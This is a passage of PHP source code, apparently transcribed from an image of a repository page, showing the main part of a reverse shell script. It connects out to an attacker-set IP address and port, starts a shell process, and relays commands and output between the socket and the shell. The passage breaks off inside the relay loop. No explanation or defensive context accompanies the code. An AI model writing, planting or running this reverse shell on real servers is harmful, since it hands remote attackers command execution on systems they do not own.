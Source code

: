 ```php

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
```